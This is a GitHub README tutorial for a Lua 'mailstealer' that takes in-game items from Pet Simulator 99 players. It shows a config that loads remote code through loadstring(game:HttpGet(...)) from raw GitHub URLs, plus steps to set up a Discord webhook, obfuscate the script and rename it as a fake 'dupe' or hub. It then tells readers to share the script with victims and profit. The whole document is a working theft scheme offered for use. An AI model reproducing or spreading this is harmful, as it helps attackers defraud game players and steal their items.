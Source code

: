 # I had made a tutorial for my mailstealer (for pet simulator99) [Aurora](https://discord.gg/Eh7EX6dzAF) feel free to join my server, do not run anything you see here you will lose your stuf!!! this is a direct copy and paste of my tutorial from the discord
Alright chat this is a tutorial  
Since everyone's stupid and can't understand lua 😭  
And I don't have the resources to host a 24/7 mailsteal creator bot So here's a tutorial So I'll be explaining most of the shit  
# 1 getting your webhook
video tutorial below:  
[![Click me!](https://img.youtube.com/vi/video-id/0.jpg)](https://github.com/Enivzoy/Aurora/raw/main/pics/webhook.mp4)  
From my [partner<3](https://discord.gg/CxhY6rpUCA)  
  
Cant download? Try this Instead  

Create A new discord server  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/52323e22-8b40-4ae5-8be5-b35579bc0e27)  
Name it whatever you want it doesnt matter  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0e446427-0d39-46c9-be2f-3a276d2ad3a7)  
edit your general channel  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/18304642-97cc-465a-9117-8a97d6b7cccf)  
go to integrations  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/818412ec-e331-4353-8d55-95f81cad3e66)  
then click create a webhook  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8448d93c-1328-4f44-8739-752fec73d0ab)  
by default you should see a spidey bot  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/04880695-ae31-4c91-947f-29f6f6925f3c)  
Click copy webhook url and ur done  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/f5b0b964-2030-47b0-b407-7bd9286f9492)  



# 2: setting up the lua code

Get the script from ⁠[script channel from discord](https://discord.com/channels/1226830019939143690/1227851051634266193)
It should look like this:
```lua
Username = "your user here"
Username2 = "your 2nd user here" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "your webhook here"
min_rap = 500000 -- minimum rap of each item you want to get sent to you.

keySystemEnabled = true -- wether you want to enable key system or not
hubName = "Hubname | Keysystem" -- self explain
keyLink = "https://example.com/" -- the link wehere yoi cam get your keys this can be a discord invite
keys = {"key1", "key2", "andsoon"} -- the keys for your key system

loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Utilz/main/lua/rblx/AuroraTils/mainframe'))()
```
Now I will update the script more  
So don't copy the script from here incase a major rewrite/bugs go join the [discord](https://discord.gg/Eh7EX6dzAF) for updated script  
So as per [update 4.6/keysystem1.2](https://discord.com/channels/1226830019939143690/1227851051634266193/1240374560046714910) the script is updated   
Make sure you have a ps99 account which can receive mail, Aka must have reached area 10. It's better to use a alt account (or 2 alt accounts incase you get banned)  
So the `Username` should be your username for like the account to receive the mail  
For example `Username = "GetAuroraMS"`  
Now here's the tricky part  
If you have an alt  
You need to fill in the `Username2` also  
If you happen to have your mains mailbox full it will send to username2  
Now if this value(Username2) is kept empty/removed then it'll be set to my ign(only if the value is empty or removed completely) to avoid errors(no this isn't dualhooking, it's a failsafe)  
~~If I'm nice I might return the items~~  
Now the webhook, You should've gotten the webhook from step 1 So put it to the `Webhook` value  
For example `Webhook = "discord.com/x/x`  
  
Now minimum rap, Minimum rap means the item has to be the same or above the rap you put into the script   
  
Now let's say you have min rap to about 1m, And you hit a guy with 500k
You won't get anything because the min rap is 1m  
Now minrap is calculated based on whole numbers(no "m" or "k" if it's 6k then it should be 6000 if it's 1m then it should be 1000000)  
So if your into the high stuff  
Set your min rap to 1-3m  
# key system (ohh boi this gon be hard to explain(i think so?))  
So key system is like a gui that opens when you run the script  
You can enable this (it's enabled by default) by setting the `keySystemEnabled` value to true  
If you dont want key system  
Just set it to false `keySystemEnabled = false`  
Or remove everything related to it (keySystemEnabled, hubName, keyLink, keys !!!!DO NOT TOUCH THE LOADSTRING!!!!)  
I think you can figure rest of the stuff out  
now after doing everything you save your script to a file call it mailsetaler.txt and save it somewhere(using notepad or a file editor) then go to step 3(part2)  
Make sure to [DM](https://discord.gg/Eh7EX6dzAF) me if you cant follow something  I'll help you   
  
# 3: obfuscation & uploading
Now you gotta obfuscate your bot so people don't spam your webhook  
I'll be showing you how to use moonsec in this tutorial  
aight  
so first you gotta join **[moonsex](https://discord.gg/2Eah77h8KC)**  
you dm this bot  
![Preview](https://cdn.discordapp.com/attachments/1240373088063983767/1240554599815843851/image.png?ex=6646fc00&is=6645aa80&hm=c00059eb81d41af59246559ce05a91eaec6fe9c490db324228a0ee55a37fb126&)  
then you send the file you saved(mailsetaler.txt - ⁠[#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240376735581601934)) to the bot  
you will see smth like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555304484212778/image.png?ex=6646fca8&is=6645ab28&hm=e403deb16ee5097d3ad0f4d7d13d64a2f71e97a3de3eabfbf4d055d99174af7a&)  
click this   
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555577516752957/image.png?ex=6646fcea&is=6645ab6a&hm=b01cb252bd11400c8d78656accf3422644a40c39a9e474bf1b16be970566403c&)   
then you click this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555948314202132/image.png?ex=6646fd42&is=6645abc2&hm=5e25be2cf8ea0ebfdfec50181b99cd40eac73ccd3acb85ab8dfdf7fbeef9f5d3&)  
it should look like this now  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/dba1dd35-2c3f-42de-b1b2-01b8b975daf3)  
then click all of these  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0fb68965-064c-45e9-ae9b-7b5dc71f45bb)  
then click obfuscate  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/4d17cc43-574c-488c-a72b-b1f3fdcb9690)  
it willl show this embed click on the **[Click Here]** to download the file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/d0202540-2646-4475-8a05-f2c6b2cef77f)  
you will have to do a linkvertise  
once you get your file(THIS WILL BE DIFFERENT FOR EVERYONE)  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8aa2dd5f-b35d-4a46-b239-366481d74d2b)  
rename it to something else like "loader" "exec" "dupe" "tradescam" "arkohub", "aurorahub" etc etc
![image](https://github.com/Enivzoy/Aurora/assets/130647229/32598d66-be6d-41d3-96f7-090ab96dd1e9)
# Now uploading
create your account at [github](https://github.com/)  
your homepage should look like this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/467c470e-2fea-46dd-9d8f-811f8d354d60)  
click this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/e36259f7-965a-41bd-b855-d0cdebfba9ed)  
click new repository  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0782fd97-53b3-4633-a9a0-b7c383d7fa00)  
it will open this page  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/2c3b7233-b389-4c4f-b918-97fbed434492)  
click create repo after filling in everything  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8146420e-d331-4175-a5a6-183270456be8)  
it will now show this   
![image](https://github.com/Enivzoy/Aurora/assets/130647229/c36db808-0252-477f-a763-bda51feb6da5)  
click uploading an existing file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/65ce8aed-6b7f-49bd-9200-ed460b265f27)  
it will open this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/a744f62c-e5d8-4728-86cd-2f1fb47042a3)  
find where you had saved your file ([#⁠tutorial-since-stupid](https://discord.com/channels/1226830019939143690/1240373088063983767/1240556624561832037)⁠ TILL⁠ [#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240557422091698176)) for me its loader saved in downloads folder  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0df73a16-4f5b-4372-944d-4c44485a0d7d)  
drag and drop your file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/859fe5e9-cf57-4530-bdb7-2eb17931acdd)  
once uploaded click commit changes  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/690a548f-1d3d-4685-9ecc-68ea0c0e2f71)  
if youve done everything right to this point it should look like this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/476a12f6-2bf9-4262-8346-f0525c82275b)  
click your file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8f64d269-0764-4c5b-8f35-0f716d4ddcaa)  
it should open this up, then click raw  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/a4427ac1-3f2d-4e53-a4a1-4800e338f9fe)  
you will see this mess  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/eb6404dd-0960-4d03-9a61-722eb23c128b)  
copy the url for me it is https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/ea75ed82-8545-44f4-ac3c-4798eee14153)   
then you put the raw link into a loadstring  
`loadstring(game:HttpGet('RAW LINK HERE'))()`  
for me it is `loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader'))()`  
  
  
now you share the script  
and porfit  
profit  
make sure to dm me your profits  
so i can advertise it 👍  
if you dont understand something make sure to dmme  
# thanks to my discord server, arko and levox and future partners for providing me with resources and etc
